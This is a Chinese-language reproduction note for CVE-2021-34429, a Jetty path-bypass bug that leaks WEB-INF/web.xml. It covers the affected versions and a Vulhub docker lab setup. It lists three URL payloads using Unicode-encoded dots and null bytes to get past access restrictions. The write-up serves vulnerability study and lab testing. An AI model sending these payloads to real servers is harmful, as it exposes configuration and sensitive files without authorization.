

# CVE-2021-34429

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jetty WEB-INF 敏感信息泄露漏洞


## 0x01 漏洞描述

Eclipse Jetty 是一个 Java Web 服务器和 Java Servlet 容器。

Jetty 9.4.40 修复了一个模糊路径信息泄露漏洞[CVE-2021-28164](https://github.com/vulhub/vulhub/tree/master/jetty/CVE-2021-28164)，CVE-2021-34429 是它的变种和绕过。

有 3 种类型的有效载荷可以泄露以下内容`WEB-INF/web.xml`：

- 基于 Unicode 的 URL 编码：`/%u002e/WEB-INF/web.xml`
- `\0`有`.`错误：`/.%00/WEB-INF/web.xml`
- `\0`有`..`错误：`/a/b/..%00/WEB-INF/web.xml`

## 0x02 影响版本

```
9.4.37 ≤ Eclipse Jetty ≤ 9.4.42
10.0.1 ≤ Eclipse Jetty ≤ 10.0.5
11.0.1 ≤ Eclipse Jetty ≤ 11.0.5
```

## 0x03 环境搭建

Vulhub执行以下命令启动 Jetty 9.4.40 服务器。

```
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080`查看示例页面。



## 0x04 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：


使用`/%u002e`来绕过限制下载web.xml：

```text
/%u002e/WEB-INF/web.xml
```

